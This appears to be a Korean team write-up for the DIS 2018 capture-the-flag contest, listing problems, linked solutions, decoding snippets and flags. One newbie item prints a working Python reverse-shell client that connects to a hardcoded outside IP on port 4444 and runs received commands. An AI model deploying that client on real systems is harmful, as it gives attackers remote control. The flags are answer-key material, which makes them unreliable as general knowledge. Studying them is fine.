


# DIS 2018 - We_Are_From_SWU (2st, 6714)


With **@uhmtoto**, **@cokia**, **@gtg7784**

2018.07.21

## Probs


> 롸업이 작성된 문제는 취소선을 그어주세요

> 팀 롸업은 이걸로 얼른 제출해버리기 위해서 다른 팀원들이 푼 문제는 걍 링크를 걸어두었습니다. 푼 사람을 모르거나 팀원들이 롸업을 안 던져준 문제는 걍 제가 다시 풀고서 답을 썼습니다.

- CRYPTOGRAPHY
    - [x] ~~Canada : 7Jqw66as64KY6528IOyXreyCrCDsho0g66qo65OgIOuCmOudvOydmCDqsbTqta3sl7Drj4Trpbwg642U7ZWY7Iuc7Jik~~
    - [ ] UK : N0oyOC8ldUI0RjEvZHAvJXVBQzAwLzZybWQvc2wvUHc9PQ==
    - [x] Zambia : dks7sud6gk8tp1dy7g6==
    - [ ] Tanzania : Mixed!

- FOR NEWBIE!
    - [x] Guatemala : C....
    - [x] Brazil : SuperDuper!
    - [x] Mauritania : Over...
    - [x] Angola : The kernel?
    - [x] Yemen : Firewall?
    - [x] China : Interpreter?
    - [x] Malaysia : What is it?

- FORENSIC
    - [x] Ukraine : CERTCERTCERT

- MISC
    - [x] ~~Germany : How many languages do you know?~~
    - [ ] Sudan : NOGADADA

- NETWORK
    - [x] Chad : Network 2
    - [x] ~~Mongolia : network3~~

- NONE ~~맛소금님드립모음~~
    - [x] ~~Mexico : ethereum~~
    - [x] ~~Czech : Old Version..? Old Version?~~

- REVERSING
    - [x] ~~Russia : EZ_REVERSING~~
    - [x] ~~Spain : REVERGRAPHY~~
    - [ ] Australia - Reversing Problem

- WEB
    - [x] Greenland : EZ_wb1
    - [x] ~~US : comment~~
    - [x] ~~Argentina : Compare!~~
    - [x] ~~Burkina Faso : Another WEb?~~
    - [x] ~~Algeria : cmp2~~
    - [x] ~~Libya : Can you be the GOD? 😀~~
    - [x] ~~Congo : Key Auth~~
    - [x] ~~Kyrgyzstan : YEOEY~~

-----

## CRYPTOGRAPHY

### Canada : 7Jqw66as64KY6528IOyXreyCrCDsho0g66qo65OgIOuCmOudvOydmCDqsbTqta3sl7Drj4Trpbwg642U7ZWY7Iuc7Jik
https://github.com/gtg7784/Write-Ups/tree/master/DIS-CTF#jqw66as64ky6528ioyxreycrcdsho0g66qo65ogioucmoudvoydmcdqsbtqta3sl7drj4trpbwg642u7zwy7iuc7jik---cryptography

태건이가 대한민국의 무궁한 역사를 공부하면서 삽질을 했고 결국 풀었는데, 왠지 좀 불쌍하다.

아래처럼 파이썬으로도 슥삭할 수 있다. 

```python
>>> import base64
>>> base64.b64decode('7Jqw66as64KY6528IOyXreyCrCDsho0g66qo65OgIOuCmOudvOydmCDqsbTqta3sl7Drj4Trpbwg642U7ZWY7Iuc7Jik').decode().replace(' ', '_')
'우리나라_역사_속_모든_나라의_건국연도를_더하시오'
```

부들,,,부들

`우리나라_역사_속_모든_나라의_건국연도를_더하시오`

### Zambia : dks7sud6gk8tp1dy7g6==
~~이 친구는 내가 안 풀었고 솔직히 모르겠다. 아 이거 태건이였나 서훈이였나 풀었었던 것 같은데 왜 롸업을 안 줬을까 ㅠ~~

아오... 그냥 한타로 치면 됬었다.

`안7녕6하8세1요7ㅎ6==`

여기서 숫자랑 기호를 빼면 ~~어우 진짜~~

`안녕하세요ㅎ` ~~저리가세요~~

-----

## FOR NEWBIE!

### Guatemala : C....
```
이것이란 집적·공유된 정보통신기기, 정보통신설비, 소프트웨어 등 정보통신자원을 이용자의 요구나 수요 변화에 따라 정보통신망을 통하여 신축적으로 이용할 수 있도록 하는 정보처리체계를 말한다. 이것은 무엇인가?
Flag is EN
```

클라우드컴퓨팅 발전 및 이용자 보호에 관한 법률 제 2조(정의)에 나오는 클라우드컴퓨팅의 정의 내용과 일치한다. 
정확히 뭐였는지 기억은 안나는데 영어로 쓰라고 했으니 아마 `Cloud Computing`이랑 비슷한 거였을 듯.

### Brazil : SuperDuper!
```
여러대의 컴퓨터를 병렬로 연결하여 다른 컴퓨터보다 월등히 높은 성능을 내는 컴퓨터를 뭐라하는가?
```

컴퓨터 클러스터링 -> !!!

`슈퍼컴퓨터`

### Mauritania : Over...
```
이것은 버그의 일종으로 프로그램이 실행될 때 입력받는 값이 버퍼를 가득 채우다 못해 넘쳐흘러 버퍼 이후의 공간을 침범하는 현상이다. 이 버그를 이용한 공격의 취약점은 무엇인가?(줄여서)
```

버퍼오버플로우 취약점

`BOF`

### Angola : The kernel?
```
Unix기반의 커널의 혹은 그 커널을 사용하는 운영 체제를 뜻하는 말로, 이 커널을 사용한 OS는 대표적으로 우분투,CentOS 등이 있다. 이 커널은 무엇인가?
```

`리눅스`

### Yemen : Firewall?
```
본 소스코드는 zombie.py의 클라이언트 프로그램이다. 해당 공격을 막기 위해서는 무엇을 해야하는가? Flag:OOOO를 입력)OOO번 포트를 _OOO으로_차단해야_한다.
```

우와~!

```python
#-*- coding: utf-8 -*-
import socket
import os
print("RS Tool_Client")
HOST='36.325.51.114'
PORT=4444
clientSock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
clientSock.connect((HOST,PORT))
clientSock.send('[*] Connection Established'.encode('utf-8'))
while 1:
    data=clientSock.recv(1024)
    if data=="quit":
        break
    # print(str(data))
    data=str(data)
    procdata=data.replace("b","",1)
    newdata=procdata.replace("'","",2)
    # print(newdata)
    shell= os.popen(newdata)
    result=shell.read()    
    print(result)
    # print(type(result))
    clientSock.send(result.encode('utf-8'))
clientSock.close()
```

코드를 살펴보니 4444번 포트로 연결을 수립하고 뭔 짓을 한다. 문제 제목을 보아하니 이를 방화벽을 써서 막으라는 것 같다.

`4444번_포트를_방화벽으로_차단해야_한다.`

### China : Interpreter?
```
1991년에 발표된 인터프리터 방식의 프로그래밍 언어로, 간결하고 쉬운 문법과 진입장벽이 낮다는 특징을 가진 언어는 무엇인가?
```

파이썬 너무조앙

`파이썬`

### Malaysia : What is it?
```
Description: 이것은 TCP/IP 네트워크 상에서 컴퓨터들이 파일을 교환하기 위해 1971년에 최초로 공개된 통신 규약이다. 네트워크에 연결된 컴퓨터끼리 데이터를 원활하게 교환하기 위한 목적으로 개발된 이것은 무엇일까?
```

FTP 프로토콜인데 역시 플래그가 정확히 기억나지 않는다.

아마 그냥 `FTP`였겠지?

-----

## FORENSIC

### Ukraine : CERTCERTCERT
우영이가 만든 문제인데 롸업을 안 던져주고 갔다. ~~너무행~~

`79 6f 75 67 6f 74 69 74 21 66 6c 61 67 7b 49 5f 63 61 6e 5f 69 6d 70 6f 72 74 5f 63 65 72 74 69 66 69 63 61 74 69 6f 6e 5f 69 6e 5f 63 65 72 74 6d 67 72 7d`

인증서가 있는데 정보를 보니 별 거 없는 것 같길래 걍 vscode로 열었는데 중간 끝부분에 이런 데이터가 있었다!

```python
print (''.join([chr(int(data, 16)) for data in '79 6f 75 67 6f 74 69 74 21 66 6c 61 67 7b 49 5f 63 61 6e 5f 69 6d 70 6f 72 74 5f 63 65 72 74 69 66 69 63 61 74 69 6f 6e 5f 69 6e 5f 63 65 72 74 6d 67 72 7d'.split(' ')]))
```

얼른 파이썬으로 한줄코딩을 해서 돌리니...

`yougotit!flag{I_can_import_certification_in_certmgr}`

오예!

`I_can_import_certification_in_certmgr`

-----

## MISC

### Germany : How many languages do you know?
https://github.com/gtg7784/Write-Ups/tree/master/DIS-CTF#how-many-languages-do-you-know---misc

`FLAG{0H...Y0U_KN0W_W1NGD1NG!}`

-----

## NETWORK

### Chad : Network
우영이가 IP 다 뽑아다가 넣어서 풀었다. 갓...!

### Mongolia : network3
https://github.com/gtg7784/Write-Ups/tree/master/DIS-CTF#network-3---network

`port scan`

-----

## NONE

### Mexico : ethereum
```
ETH * 4 =?
(Flag is Korean)
```

`이더넷`

### Czech : Old Version..? Old Version?
```
오래된 버전의 도커를 쓰면?
오래된 버전의 도커를 쓰면?
```

비교적 최근에 나옸는데 있어서 놀랐다.

`독거노인`

-----

## REVERSING

### Russia : EZ_REVERSING
https://github.com/gtg7784/Write-Ups/tree/master/DIS-CTF#ez_reversing---reversing

너무 슬펐다.

`real_flag`

### Spain : REVERGRAPHY
https://github.com/JunhoYeo/for-dis-2018#problem-one-revergraphy-spain

변태문제라고 맞았다.

`sendMe_ETH_0x07B8CedbE8Ab83F06DFAdC39991910A4544dE3A1`

-----

### WEB

### Greenland : EZ_wb1

### US : comment
https://github.com/uhmtoto/Write-Up/blob/master/DIS%20CTF%202018%20%EB%82%B4%EA%B0%80%EB%82%B8%20%EB%AC%B8%EC%A0%9C%EB%93%A4%20WRITE-UP%5Bpdf%5D.pdf

`!!!th1s_is_last_prob!!!`

### Argentina : Compare!
https://github.com/uhmtoto/Write-Up/blob/master/DIS%20CTF%202018%20%EB%82%B4%EA%B0%80%EB%82%B8%20%EB%AC%B8%EC%A0%9C%EB%93%A4%20WRITE-UP%5Bpdf%5D.pdf

`MD5_cndehf`

### Burkina Faso : Another WEb?
https://github.com/JunhoYeo/for-dis-2018#problem-two-another-web-burkina-faso


`get_defined_vars());`를 쓰면 된다. 

`I_us3_k1ng_G0d_l4n9_PHP_so_$ME!=="AHSSA"?????`

### Algeria : cmp2
https://github.com/uhmtoto/Write-Up/blob/master/DIS%20CTF%202018%20%EB%82%B4%EA%B0%80%EB%82%B8%20%EB%AC%B8%EC%A0%9C%EB%93%A4%20WRITE-UP%5Bpdf%5D.pdf


심심해서 [징그럽게 숏코딩된 익스플로잇](./exploit-cmp2.py)을 짜봤다.

`1_l0v3_brut2f0rc3`

### Libya : Can you be the GOD? 😀
https://github.com/uhmtoto/Write-Up/blob/master/DIS%20CTF%202018%20%EB%82%B4%EA%B0%80%EB%82%B8%20%EB%AC%B8%EC%A0%9C%EB%93%A4%20WRITE-UP%5Bpdf%5D.pdf

`u_aR3_r2a1_G0d!`

### Congo : Key Auth
https://github.com/uhmtoto/Write-Up/blob/master/DIS%20CTF%202018%20%EB%82%B4%EA%B0%80%EB%82%B8%20%EB%AC%B8%EC%A0%9C%EB%93%A4%20WRITE-UP%5Bpdf%5D.pdf

`7J206rG466ee7LaU64uk64ulLg==`

### Kyrgyzstan : YEOEY
https://github.com/JunhoYeo/for-dis-2018#problem-sam-yeoey-kyrgyzstan


헤더에 있다.

`S0E4SY,huh,,,i_am_so_kind_i_9uess`
